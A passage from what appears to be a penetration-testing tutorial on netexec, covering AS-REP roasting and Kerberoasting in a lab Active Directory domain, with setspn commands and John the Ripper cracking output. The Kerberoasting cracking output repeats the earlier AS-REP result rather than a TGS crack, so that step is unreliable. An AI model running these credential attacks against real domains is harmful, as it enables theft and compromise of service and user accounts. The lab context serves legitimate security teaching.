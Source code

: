 ```bash
Password123      ($krb5asrep$23$elliot.taylor@YL-LABS.COM)     
1g 0:00:00:00 DONE (2025-03-15 03:33) 100.0g/s 100.0p/s 100.0c/s 100.0C/s Password123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

#### Kerberoasting

And lastly, let's have a look at the *Kerberoasting* attack can be carried out.

*Kerberoasting* is primarily targeted at users with *Service Principal Names* or *SPN's* for short. Within an *Active Directory* domain, users have the ability to request *Kerberos* service tickets (*TGS*) to access said services. As part of such requests, the appropriate of the targeted service must be included. For example, if the user wants to get a service ticket for the *MSSQL* instance running over at the *DB01* machine, the requested *SPN* would likely be similar to: *MSSQLSvc/db01.yl-labs.com*. Based on the provided *SPN* in the request, the *Domain Controller* will perform a lookup to find out which account has the *SPN* associated to it. In most cases, *SPN's* are either assigned to *service account users* or to *computer* accounts.

Once the account holding the requested *SPN* is identified, its password hash is used to encrypt the returned *TGS* to the user. The user will then be able to present this *TGS* to the service in question and authenticate. 

But we aren't interested in authenticating at this stage... we are interested in the returned *TGS*. 

See, if we wanted to target let's say, the *sql_svc* account, which has an *SPN* associated to it, we can request a *TGS* ticket for that specific *SPN* and when we receive it, we'll know that it's encrypted using *sql_svc's* password. In short, if we're able to crack it, we would have compromised the *sql_svc* account.

For this demo, let's set a temporary *SPN* for our *elliot.taylor* user:

```bash
C:\Users\Administrator>setspn -s MSSQLSvc/db01.yl-labs.com elliot.taylor
Checking domain DC=yl-labs,DC=com

Registering ServicePrincipalNames for CN=elliot.taylor,CN=Users,DC=yl-labs,DC=com
        MSSQLSvc/db01.yl-labs.com
Updated object

C:\Users\Administrator>
```

With the *SPN* set, it's now time to perform the attack with *netexec*. To do so, we'll need to specify the *--kerberoasting* flag and once again, *results.txt* will be our output file.

![](/assets/imgs/netexec-mastery/Pasted image 20250314234903.png)

And of course, the resulting hash can also be sent through to the cracking rig:

```bash
┌──(ori㉿ori)-[~]
└─$ john ./results.txt -w=wordlist.txt
Warning: only loading hashes of type "krb5asrep", but also saw type "krb5tgs"
Use the "--format=krb5tgs" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 4 needed for performance.
Password123      ($krb5asrep$23$elliot.taylor@YL-LABS.COM)     
1g 0:00:00:00 DONE (2025-03-15 03:50) 100.0g/s 100.0p/s 100.0c/s 100.0C/s Password123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
